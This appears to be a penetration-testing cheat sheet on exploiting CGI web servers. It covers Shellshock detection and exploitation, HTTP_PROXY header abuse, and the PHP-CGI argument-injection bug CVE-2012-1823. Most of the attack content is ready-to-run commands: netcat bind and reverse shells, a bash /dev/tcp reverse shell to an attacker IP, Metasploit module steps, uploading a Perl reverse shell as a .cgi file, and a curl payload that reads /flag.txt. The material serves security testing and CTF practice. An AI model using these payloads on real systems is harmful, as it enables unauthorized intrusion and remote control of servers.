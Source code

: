 CGI
Information

The CGI scripts are perl scripts, so, if you have compromised a server that can execute .cgi scripts you can upload a perl reverse shell (/usr/share/webshells/perl/perl-reverse-shell.pl), change the extension from .pl to .cgi, give execute permissions (chmod +x) and access the reverse shell from the web browser to execute it.
In order to test for CGI vulns it's recommended to use nikto -C all (and all the plugins)
ShellShock

Bash can also be used to run commands passed to it by applications and it is this feature that the vulnerability affects. One type of command that can be sent to Bash allows environment variables to be set. Environment variables are dynamic, named values that affect the way processes are run on a computer. The vulnerability lies in the fact that an attacker can tack-on malicious code to the environment variable, which will run once the variable is received.

Exploiting this vulnerability the page could throw an error.

You could find this vulnerability noticing that it is using an old Apache version and cgi_mod (with cgi folder) or using nikto.
Test

Most tests are based in echo something and expect that that string is returned in the web response. If you think a page may be vulnerable, search for all the cgi pages and test them.

Nmap

nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi

Curl (refelcted and blind)

curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
#Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi

​Shellsocker​

python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi

Exploit

#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run

Proxy (MitM to Web server requests)

CGI creates a environment variable for each header in the http request. For example: "host:web.com" is created as "HTTP_HOST"="web.com"

As the HTTP_PROXY variable could be used by the web server. Try to send a header containing: "Proxy: <IP_attacker>:<PORT>" and if the server performs any request during the session. You will be able to capture each request made by the server.
Old PHP + CGI = RCE (CVE-2012-1823, CVE-2012-2311)

Basically if cgi is active and php is "old" (<5.3.12 / < 5.4.2) you can execute code.
In order t exploit this vulnerability you need to access some PHP file of the web server without sending parameters (specially without sending the character "=").
Then, in order to test this vulnerability, you could access for example /index.php?-s (note the -s) and source code of the application will appear in the response.

Then, in order to obtain RCE you can send this special query: /?-d allow_url_include=1 -d auto_prepend_file=php://input and the PHP code to be executed in the body of the request.
Example:

curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"

More info about the vuln and possible exploits: https://www.zero-day.cz/database/337/, cve-2012-1823, cve-2012-2311, CTF Writeup Example.
